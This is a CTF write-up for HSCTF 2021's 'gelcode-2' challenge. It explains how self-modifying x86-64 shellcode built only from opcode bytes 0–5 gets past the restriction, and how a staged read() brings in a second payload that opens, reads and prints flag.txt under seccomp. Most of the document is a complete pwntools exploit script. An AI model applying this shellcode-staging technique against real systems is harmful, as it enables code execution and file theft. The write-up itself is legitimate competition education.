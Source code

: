 I did the gelcode challenge in HSCTF 2021 in solo, but did not finish it before CTF's end... 

this one was based on first gelcode, but even more restricted, you can only use opcodes values from 0 to 5..

there was also a seccomp in place

[![https://imgur.com/6hYpm4F.png](https://imgur.com/6hYpm4F.png)](https://imgur.com/6hYpm4F.png)

which only allows open, read, write syscalls

as often for this kind challenge, the solution, is escape as soon as you can from this hell..

with a read syscall, to read a unrestricted shellcode..

for this we need at minimum, to have:
* eax = 0
* rsi pointing to a RWX buffer
* rdi = 0
* and rdx containing an enough big value (at least as big as our shellcode, but can be bigger)

to complicate things, all the registers are set to 0x1337133713371337 before calling our shellcode, even rsp,

so we can not use stack.

the solution, in our case is self modifying code,

we are going to generate the opcodes we need, to bypass the restrictions in place.

we will use mainly:

```add eax,dword value   # opcode 05 val val val val```

to modify eax, (as we are in 64bit , the upper 32bits of rax will be cleared by using 32 bit arithmetic instructions)

```add al,byte value   # opcode 04 val```

to modify al only

```add dword[rip+0],eax   # opcode 01 05 00 00 00 00```

to modify next instruction (rip+0) by adding eax to values in place, with this one we can create instructions with any opcodes we want

```add byte[rip+0],al   # opcode 00 05 00 00 00 00```

to modify next instruction (rip+0) by adding al to value in place, with this one also we can create instructions with any opcodes we want

that's all we need !!!

first we create an opcode lea rsi,[rip] to make rsi points to ourself

then mov edx, 0x400

mov edi,0

then xor eax,eax / syscall to call the read syscall reading data on ourselves,

and replace the actual restricted shellcode by a second one, unrestricted,

where we can do an open/read/write shellcode to dump the flag...

I got first blood on this one (yes a bit proud :) )

with our team "Sentry Up Before You Nops Nops" --> french super team...cream of the cream...

```Nobodyisnobody stills pwning things..```


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./gelcode-2')
host, port = "mc.ax", "31034"

# from a src eax, calculate increment of each byte to read dest eax, and emit correct opcodes for it
def equalize(src, dst):
  ret = ''
  ov0 = 0
  ov1 = 0
  ov2 = 0
  d0 = dst & 0xff
  d1 = (dst>>8)&0xff
  d2 = (dst>>16)&0xff
  d3 = (dst>>24)&0xff
  s0 = src & 0xff
  s1 = (src>>8)&0xff
  s2 = (src>>16)&0xff
  s3 = (src>>24)&0xff
  if (d0<s0):
    d0 += 0x100
    ov0 = 1
    s1 += 1
  if (d1<s1):
    d1 += 0x100
    ov1 = 1
    s2 += 1
  if (d2<s2):
    d2 += 0x100
    ov2 = 1
    s3 += 1
  if (d3<s3):
    d3 += 0x100

  while True:
    if ((s0 == d0) and (s1 == d1) and (s2 == d2) and (s3 == d3)):
      break
    if ((d0 - s0) > 5):
      o0 = 5
    else:
      o0 = d0 - s0
    if ((d1 - s1) > 5):
      o1 = 5
    else:
      o1 = d1 - s1
    if ((d2 - s2) > 5):
      o2 = 5
    else:
      o2 = d2 - s2
    if ((d3 - s3) > 5):
      o3 = 5
    else:
      o3 = d3 - s3
    s0 += o0
    s1 += o1
    s2 += o2
    s3 += o3
    ret += 'add eax,0x0'+str(o3)+'0'+str(o2)+'0'+str(o1)+'0'+str(o0)+'\n'
  return ret

# create lea rsi,[rip] opcode
sc = equalize(0x13371337,0x3088438b)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5,0,0,0,0\n'
sc += 'add al,5\n'*8
sc += 'add al,2\n'
#create mov edx, 0x400    opcode
sc += 'add [rip+0x0],al\n'
sc += '.byte 5,0,4,0,0\n'
sc += 'add al,5\n'
# create mov edi,0   opcode
sc += 'add [rip+0],al\n'
sc += '.byte 5,0,0,0,0\n'
# create xor eax,eax / syscall opcodes
sc += equalize(0x308843ba, 0xabb2c)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5\n'

shellcode = asm(sc)
print('shellcode length: '+str(len(shellcode)))

length = len(shellcode)


p = remote(host,port)
p.recvuntil('is ', drop=True)
length = 362

payload = bytearray(shellcode.ljust(length,b'\x00'))

# second shellcode, read from the first one,  simple open('flag.txt') , read(), write it to stdout   (if program does not ouput to stdout try other fds 0,1,2,3,4,5,etc..)
shellcode2 = asm('''
  mov rdi,rsi
  mov rbp,rdi
  mov rsi,0
  mov rdx,0
  mov eax,2
  syscall
  mov rdi,rax
  mov rsi,rbp
  mov rdx,0x200
  mov eax,0
  syscall
next:
  mov rdx,rax
  mov rdi,1
  mov rsi,rbp
  mov eax,1
  syscall

  mov eax,60
  syscall
''')

p.sendafter('input:\n', payload)

# the flag filename is here,  normally it's in current directory on remote machine
payload = b'flag.txt\x00'
payload = payload.ljust(0x150,b'\x90')
payload += shellcode2

p.send(payload)

p.interactive()

```


